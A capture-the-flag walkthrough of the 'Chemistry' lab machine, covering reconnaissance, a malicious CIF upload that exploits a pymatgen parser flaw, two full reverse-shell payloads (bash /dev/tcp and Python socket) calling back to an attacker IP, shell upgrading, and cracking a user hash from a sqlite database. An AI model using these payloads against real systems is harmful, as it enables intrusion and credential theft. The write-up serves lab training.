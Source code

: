 ## Chemistry

# Walkthrough
First we do a nmap scan:  
![alt text](image.png)  
Two ports open:  22 and 5000. Some service is hosted on the port 5000.  
![alt text](image-1.png)  
Before trying to navigate the webapp, i launched a fuzz scan to look if any subdirectory can be found at that address.  
![alt text](image-2.png)  
Five findings: login, logout, register, dashboard and upload.  I'll keep that in mind for later.  
  
The webapp seems to host an application to analyze CIF files, some file format used to store and analyze crystallographic informations.  
It's possible to register a new user:  
![alt text](image-3.png)  
On this page it's possible to upload a new CIF file. The first thing that came up in my mind was the possibility of uploading a reverse shell, but I  need two things:  
1) The possibility of creating one in this CIF file --> I have to analyze how a CIF file is formatted;  
2) The possibility to call the file on the remote server once uploaded;  
  
Fortunately, there is a demo file that can be downloaded on the webapp. I did that and saw the CIF format:  
![alt text](image-4.png)  
Not too easy.  
For the second point I tried to reupload this file to see how it was stored on the webapp:  
![alt text](image-5.png)  
And then by clicking on "view":  
![alt text](image-6.png)  
So a new subdirectory is created at each upload and it is possible to reach it with a GET request.  
The answer to the secont point is then solved, but still it's not clear if it is really possible to upload a reverse shell in this CIF format.  
Before diving into (lots) of web browsing, I tried to see if there is a sanitization of the file uploading. If not, I can simply upload a php web shell saving lots of time.  
![alt text](image-7.png)  
That was the server's answer.  
I then tried to do the same thing but with Burp in the middle, to analyze the packet exchange and see if something useful pops up.  
As long as I could see, there was nothing useful. The only thing to notice was that to delete a file there is a call to the API */delete_structure/{ID}*. Also probably the files are only stored for one session.   
  
At this point I had to check if there exist the possibility of hide a reverse shell in this type of format.  
I found this repo:  https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f.  
It's possible to hide code inside the CIF file that will allow a remote code execution.  
I copy-pasted the code and hide inside the code to open a bash reverse shell:  
```python
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -i >& /dev/tcp/10.10.14.221/4444 0>&1");0,0,0'
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```  
There is a problem: with this code, also after putting a netcat shell on listening, I couldn't get a reverse shell.  
Struggled a bit, but then I thought that maybe the remote shell isn't a bash shell. Because this vulnerability is possible because exploits a python module, I tried to do the same, but with a python reverse shell: 
```python
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.11.221",4444)); os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'");0,0,0'
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```  

Neither this is working. After (too) many tries I simply discovered that there was a formatting problem in the first exploit tried.  
In the end, i got a reverse shell in bash...  
![alt text](image-8.png)  
I proceded to upgrade the shell with the classical:  
```python
script /dev/null -c /bin/bash
^Z
stty raw -echo; fg
*and then inputing "screen"*
```  
There is a user called *rosa* with the user flag, but my user (app) can't read it. I have to do some enumeration.  
![alt text](image-9.png)  
I tried to cat some evergreen files, as /etc/hosts /etc/shadow /etc/passwd, but there is nothing useful. Also, sudo does exist, but i don't know the password yet. 
I found a file called *app.py* with a password (of the Flask app) in cleartext:  
![alt text](image-10.png)  
Tried to see if that is the sudo password, but unfortunately that is not the case.  
I didn't know the use of the Flask secret key, but i read that *"Secret key is only used to protect user session data in flask, afaik. As in - cookies and whether user is logged in or not, it usually does not protect very sensitive information. And its not generally used to protect any persistent information. Meaning you can just generate this key randomly at startup."*, so it shouldn't be very useful unfortunately.  
But there is a sqlite3 database somewhere. Found it in a directory and analyzed the content:  
![alt text](image-11.png)  
There I found the user credentials, with the password hashed:  
![alt text](image-12.png)  
I decrypted the rosa password using john and the wordlist rockyou.txt. The password is **unicorniosrosados**.  
I could login via ssh with the rosa's credentials and was able to get the user flag:  
![alt text](image-13.png)


## Privilege escalation
It could be useful for later, let's keep in mind that other hashes were stored in the user table in the sqlite database (also the admin ones).  
